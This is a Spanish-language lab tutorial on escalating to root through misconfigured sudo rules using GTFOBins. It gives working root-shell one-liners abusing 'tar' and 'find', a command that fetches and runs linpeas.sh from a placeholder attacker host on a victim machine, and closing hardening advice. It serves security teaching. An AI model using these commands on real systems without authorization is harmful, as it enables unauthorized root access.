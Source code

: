
---
# Laboratorio de escalada de privilegios mediante GTFOBins

> `GTFOBins` es una base de datos de binarios disponibles en sistemas Unix que pueden ser explotados por atacantes locales para escalar privilegios, ejecutar comandos arbitrarios, leer archivos sensibles o incluso establecer shells inversas.

En esta parte del laboratorio vamos a aprender a utilizar GTFOBins para identificar comandos que podemos aprovechar cuando el usuario tiene acceso a ciertos binarios a través de `sudo`.

---

## 1. Qué es GTFOBins y para qué sirve

**GTFOBins (Get The F*** Out Binaries)** es un recurso utilizado en auditorías de seguridad ofensiva para identificar binarios comunes que pueden ser usados maliciosamente cuando están mal configurados o cuando se ejecutan como parte de privilegios `sudo`.

- Sitio oficial: https://gtfobins.github.io

En cada binario listado, GTFOBins documenta posibles formas de explotación en categorías como:

- `sudo`: si el binario puede ser explotado si está en el archivo sudoers.
- `shell`: si permite obtener una shell.
- `file-read`: si permite leer archivos arbitrarios.
- `file-write`: si permite escribir o sobrescribir archivos.
- `reverse-shell`: si permite establecer una conexión inversa al atacante.

---

## 2. Escenario de uso: Metahumo con acceso sudo a `tar`

**Acción (como root):**

```bash
nano /etc/sudoers
````

Añadir:

```bash
Metahumo ALL=(ALL) NOPASSWD: /bin/tar
```

**Explicación:**  
Permitimos que el usuario `Metahumo` ejecute `tar` como root sin necesidad de introducir contraseña.

**Acción (como Metahumo):**

```bash
su Metahumo
sudo -l
```

**Resultado:**

```bash
Matching Defaults entries for Metahumo on <hostname>:
    env_reset, mail_badpass, secure_path=...

User Metahumo may run the following commands on <hostname>:
    (ALL) NOPASSWD: /bin/tar
```

**Explicación:**  
Confirmamos que tenemos permisos para ejecutar el binario `/bin/tar` con privilegios.

---

## 3. Búsqueda del binario en GTFOBins

**Acción (en navegador o terminal con curl):**

Ir a:

```
https://gtfobins.github.io/gtfobins/tar/
```

O usar `curl`:

```bash
curl -s https://gtfobins.github.io/gtfobins/tar/ | grep 'sudo'
```

**Explicación:**  
Accedemos a la página del binario `tar` en GTFOBins, donde se documenta cómo abusar de este binario cuando se ejecuta vía `sudo`.

---

## 4. Explotación con `tar`

**Acción (como Metahumo):**

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

**Resultado:**

```bash
root@<hostname>:/home/Metahumo#
```

**Explicación:**  
Utilizamos una función especial de `tar` (`--checkpoint-action`) que permite ejecutar un comando del sistema tras cierto número de archivos procesados. En este caso, ejecutamos `/bin/bash` como root.

---

## 5. Repetición del proceso con otro binario: `find`

**Acción (como root):**

```bash
nano /etc/sudoers
```

Añadir:

```bash
Metahumo ALL=(ALL) NOPASSWD: /usr/bin/find
```

**Acción (como Metahumo):**

```bash
sudo find . -exec /bin/bash \;
```

**Resultado:**

```bash
root@<hostname>:/home/Metahumo#
```

**Explicación:**  
`find` permite ejecutar comandos con `-exec`. Al estar bajo `sudo`, ese comando (`/bin/bash`) se ejecuta con privilegios de root.

---

## 6. Automatizando la búsqueda con `linpeas` o script manual

**Opción 1: [[LinPEAS]]**

Subimos y ejecutamos `linpeas.sh` en la máquina víctima para detectar automáticamente binarios sudo explotables.

```bash
curl http://IP_local:1234/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

**Opción 2: script manual**

```bash
sudo -l | cut -d ':' -f2 | tr ',' '\n' | xargs -I{} basename {} | while read bin; do echo "$bin:"; curl -s https://gtfobins.github.io/gtfobins/$bin/ | grep 'sudo' && echo; done
```

**Explicación:**  
Este script revisa los binarios disponibles para `sudo` y los busca en GTFOBins para ver si existe una técnica conocida de escalada.

---

## 7. Conclusiones y buenas prácticas

- GTFOBins es una herramienta fundamental para la post-explotación cuando se dispone de acceso a comandos vía `sudo`.
    
- Muchos binarios comunes pueden ser vectores de escalada de privilegios si se configuran mal en el archivo sudoers.
    
- Se recomienda evitar el uso de `NOPASSWD` salvo en situaciones muy controladas.
    
- Nunca se deben incluir binarios con capacidad de ejecución de comandos o intérpretes de forma directa sin auditoría de riesgos.
    

---

